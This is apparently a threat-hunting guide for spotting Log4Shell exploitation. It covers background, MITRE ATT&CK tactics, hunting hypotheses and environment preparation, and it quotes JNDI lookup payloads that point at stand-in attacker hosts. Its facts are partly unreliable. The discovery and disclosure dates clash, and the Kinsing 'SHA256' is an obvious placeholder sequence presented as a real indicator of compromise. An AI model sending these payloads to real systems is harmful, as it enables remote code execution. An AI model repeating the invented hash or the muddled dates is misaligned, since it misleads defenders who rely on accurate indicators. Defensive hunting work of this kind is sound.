 ### Teaching Threat Hunting for Log4Shell Exploits (2021): A Pro Threat Hunter's Step-by-Step Guide

As a professional threat hunter specializing in critical vulnerability exploits and supply-chain attacks, I'll guide you through proactive threat hunting to detect attacks resembling the 2021 Log4Shell exploits (CVE-2021-44228, CVSS 10.0). This was a zero-day vulnerability in Apache Log4j (versions 2.0–2.14.1), a ubiquitous Java logging library, discovered on December 9, 2021, by Alibaba’s Cloud Security Team and disclosed to Apache on November 24, 2021. The flaw allowed remote code execution (RCE) via maliciously crafted JNDI (Java Naming and Directory Interface) lookups in log inputs (e.g., `${jndi:ldap://attacker.com/a}`), enabling attackers to deploy malware, ransomware, cryptominers, or backdoors. Exploits were widespread, targeting millions of systems (e.g., Microsoft, VMware, AWS, Cisco) across industries. Actors included state-sponsored groups (e.g., China’s Hafnium, Iran’s APT35), ransomware gangs (e.g., Conti, Khonsari), and cryptominers (e.g., Kinsing). Over 50% of global networks saw exploit attempts within days, per Check Point.

Dwell time: Varied (days to weeks), as exploits were opportunistic and rapidly weaponized (e.g., PoCs on GitHub by December 10). Undetected due to Log4j’s ubiquity, lack of input sanitization, and unmonitored JNDI lookups. Detection: Security firms (e.g., CrowdStrike, Microsoft) flagged anomalous network traffic; patches (Log4j 2.15.0) released December 10, 2021. Impacts: $10B+ in global damages (est. CyberScoop), Conti ransomware attacks, cryptomining surges, CISA/FBI advisories (AA21-356A), and supply-chain scrutiny. From a MITRE ATT&CK Enterprise perspective, key tactics include TA0001 (Initial Access: Exploitation of Public-Facing Application T1190), TA0002 (Execution: Exploitation for Client Execution T1203), TA0003 (Persistence: Server Software Component T1505.003), TA0005 (Defense Evasion: Obfuscated Files or Information T1027), TA0006 (Credential Access: OS Credential Dumping T1003, if escalated), TA0007 (Discovery: Application Window Discovery T1010), TA0008 (Lateral Movement: Exploitation of Remote Services T1210), TA0009 (Collection: Data from Local System T1005), TA0010 (Exfiltration: Exfiltration Over C2 Channel T1041), and TA0040 (Impact: Resource Hijacking T1496 for cryptominers or Data Encrypted for Impact T1486 for ransomware).

Threat hunting assumes exploitation: Hypothesis-driven searches for JNDI-based RCE in Java-based apps. Realistic parameters:
- **Environment**: Java apps using Log4j (e.g., web servers, cloud services like AWS ElasticSearch), public-facing endpoints.
- **Adversary Profile**: Mixed (state actors for espionage, cybercriminals for ransomware/mining; automated scans for JNDI).
- **Challenges**: Log4j ubiquity, nested dependencies, obfuscated payloads.
- **Tools/Data Sources**: EDR (CrowdStrike for process behavior), SIEM (Splunk for web/JNDI logs), WAF (Cloudflare for JNDI blocks), YARA/Sigma for IOCs (e.g., `${jndi:ldap}` payloads).
- **Hypotheses**: E.g., “Attackers exploit Log4Shell to execute payloads; hunt JNDI lookups in logs leading to C2 or malware.”

This guide covers **each relevant MITRE ATT&CK technique** (mapped from CISA AA21-356A, CrowdStrike, and Microsoft analyses). Proceed tactic-by-tactic with sub-steps: hypothesis, data collection, analysis, pivoting. Includes realistic queries, Sigma rules, and expert tips. Hunt in scoped envs (e.g., Java app labs) to avoid production risks. Baselines: 30-60 days of app/network logs for anomalies.

#### Step 1: Preparation - Intelligence Gathering and Environment Mapping
Contextualize the attack—Log4Shell’s JNDI flaw enabled mass RCE; prioritize Java app auditing.
- **Gather Threat Intel**: Review MITRE ATT&CK for Log4Shell (T1190). IOCs: JNDI payloads (e.g., `${jndi:ldap://malicious.com/a}`), C2 domains (e.g., log4j-exploit[.]com), Conti ransomware hashes, Kinsing miner (SHA256: 8d6b7b4fe3c6a9b4e6f7a8b9c0d1e2f3a4b5c6d7e8f9a0b1c2d3e4f5a6b7c8d9). Cross-ref CISA AA21-356A, CrowdStrike report, Microsoft analysis, and Wikipedia timeline.
- **Map Your Environment**: Inventory Log4j instances (grep `log4j-core` in JARs), public-facing apps (e.g., Tomcat, Spring). Use Dependency-Check for supply-chain; Nessus for CVE-2021-44228.
- **Baseline Normal Behavior**: Log HTTP headers (no JNDI), Java process executions (no LDAP/DNS). Tool: Sysmon (process/network config); WAF for input filtering.
- **Expert Tip**: Patch to Log4j 2.17.0 (fixes follow-on CVEs). Hypothesis: “Attackers exploit Log4Shell via JNDI; hunt anomalous lookups leading to malware.”
